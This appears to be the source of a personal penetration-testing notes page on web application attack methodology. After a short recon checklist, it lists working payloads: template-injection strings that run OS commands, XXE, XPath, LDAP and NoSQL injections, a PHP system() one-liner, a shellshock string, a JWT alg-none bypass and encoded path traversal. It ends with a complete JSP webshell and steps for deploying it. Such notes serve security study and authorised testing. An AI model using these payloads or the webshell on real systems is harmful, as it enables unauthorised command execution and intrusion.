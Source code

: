 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


#container {
  float: left;
  margin: 0 -340px 0 0;
  width: 100%;
}

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }}</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>


g0tmilk
